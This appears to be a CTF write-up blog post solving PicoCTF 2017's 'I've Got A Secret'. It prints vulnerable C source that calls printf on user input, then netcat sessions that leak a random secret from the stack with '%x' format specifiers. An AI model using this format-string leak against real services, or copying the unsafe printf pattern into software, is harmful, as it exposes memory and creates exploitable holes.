```yaml
---
layout:     post
title:      "PicoCTF - I've Got A Secret"
subtitle:   "Write-Ups"
date:       2017-04-17 0:00:00
author:     "W3ndige"
header-img: "img/picoctf-header.jpg"
permalink: /:title/
category: PicoCTF 2017
---
```

<h1>I've got a secret - 75 PTS</h1>

<p>Hopefully you can find the right format for my secret! Source. Connect on shell2017.picoctf.com:10750.</p>

{% highlight c %}
#include <stdio.h>
#include <fcntl.h>
#include <unistd.h>
#include <stdlib.h>

#define BUF_LEN 64
char buffer[BUF_LEN];

int main(int argc, char** argv) {
    int fd = open("/dev/urandom", O_RDONLY);
    if(fd == -1){
        puts("Open error on /dev/urandom. Contact an admin\n");
        return -1;
    }
    int secret;
    if(read(fd, &secret, sizeof(int)) != sizeof(int)){
        puts("Read error. Contact admin!\n");
        return -1;
    }
    close(fd);
    printf("Give me something to say!\n");
    fflush(stdout);
    fgets(buffer, BUF_LEN, stdin);
    printf(buffer);

    int not_secret;
    printf("Now tell my secret in hex! Secret: ");
    fflush(stdout);
    scanf("%x", &not_secret);
    if(secret == not_secret){
        puts("Wow, you got it!");
        system("cat ./flag.txt");   
    }else{
        puts("As my friend says,\"You get nothing! You lose! Good day, Sir!\"");
    }

    return 0;
}
{% endhighlight %}

<p>We also have a small hint, telling us that it is vulnerable to format string exploit. From OWASP we can learn that. </p>

<p><i>The Format String exploit occurs when the submitted data of an input string is evaluated as a command by the application. In this way, the attacker could execute code, read the stack, or cause a segmentation fault in the running application, causing new behaviors that could compromise the security or the stability of the system.</i></p>

<p>Now let's try connecting, and providing the program with some random input. </p>

{% highlight bash %}
w3ndige@W3ndige ~> nc shell2017.picoctf.com 10750
Give me something to say!
hello
hello
Now tell my secret in hex! Secret: hello
As my friend says,"You get nothing! You lose! Good day, Sir!"

{% endhighlight %}

<p>Exactly nothing happens. But we also now that our target is some value in hex format. Let's try to use format string exploit to get these numbers from a memory. It's possible by typing a few <b>%x</b>  parameters. </p>

{% highlight bash %}
w3ndige@W3ndige ~> nc shell2017.picoctf.com 10750
Give me something to say!
%x %x %x %x %x %x
40 f7fc7c20 8048792 1 ffffdd34 37bcd63a
Now tell my secret in hex! Secret: f7fc7c20
As my friend says,"You get nothing! You lose! Good day, Sir!"
w3ndige@W3ndige ~> nc shell2017.picoctf.com 10750
Give me something to say!
%x %x %x %x %x %x
40 f7fc7c20 8048792 1 ffffdd34 d2ad438b
Now tell my secret in hex! Secret: 8048792
As my friend says,"You get nothing! You lose! Good day, Sir!"
w3ndige@W3ndige ~> nc shell2017.picoctf.com 10750
Give me something to say!
%x %x %x %x %x %x
40 f7fc7c20 8048792 1 ffffdd34 ffa0c668
Now tell my secret in hex! Secret: ffffdd34
As my friend says,"You get nothing! You lose! Good day, Sir!"
{% endhighlight %}

<p>See how the last value changes each time we run a program. Since we now that secret is generated using <b>urandom</b>, we can guess that that's it. Let's run one last time. </p>

{% highlight bash %}
w3ndige@W3ndige ~> nc shell2017.picoctf.com 10750
Give me something to say!
%x %x %x %x %x %x
40 f7fc7c20 8048792 1 ffffdd34 26ef02ad
Now tell my secret in hex! Secret: 26ef02ad
1ba85d212f80746e0c61b8d45bc690b6
Wow, you got it!
{% endhighlight %}

<p>Another one! </p>

<p>~ Stay safe!</p>
